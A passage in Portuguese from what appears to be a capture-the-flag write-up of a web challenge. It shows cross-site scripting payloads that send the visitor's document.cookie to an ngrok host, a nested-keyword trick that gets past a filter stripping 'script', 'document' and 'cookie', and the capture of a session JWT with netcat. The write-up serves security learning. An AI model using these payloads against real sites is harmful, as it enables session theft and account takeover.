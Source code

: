 Vamos procurar alguma payload, vou usar essa: 

```jsx
<scrscriptipt>
new Image().src='2.tcp.ngrok.io:17224/'+(document.cookie);
</scscriptript>
```

Isso vai fazer com que o browser faça uma requisição para meu IP do ngrok + a porta do ngrok  com os cookies da sessão do usuário que estiver acessando a página.

Vamos enviar e abrir nosso netcat para receber o request.

Não funcionou

```jsx
new Image().src='http://2.tcp.ngrok.io:17224/'+(.);
```

Se analisarmos a aplicação retirou a palavra "document" e a palavra "cookie", logo vamos fazer a mesma coisa que fizemos com script e está feito nosso bypass.

```jsx
<scrscriptipt>
new Image().src='http://2.tcp.ngrok.io:18238/'+(docdocumentument.cookcookieie);
</scscriptript>
```

![/assets/bankhi/Untitled%2016.png](/assets/bankhi/Untitled%2016.png)

Agora vamos usar esse token que pegamos: (se botarmos esse token no [jwt.io](http://jwt.io) ele vai mostrar o uid:1)

![/assets/bankhi/Untitled%2017.png](/assets/bankhi/Untitled%2017.png)
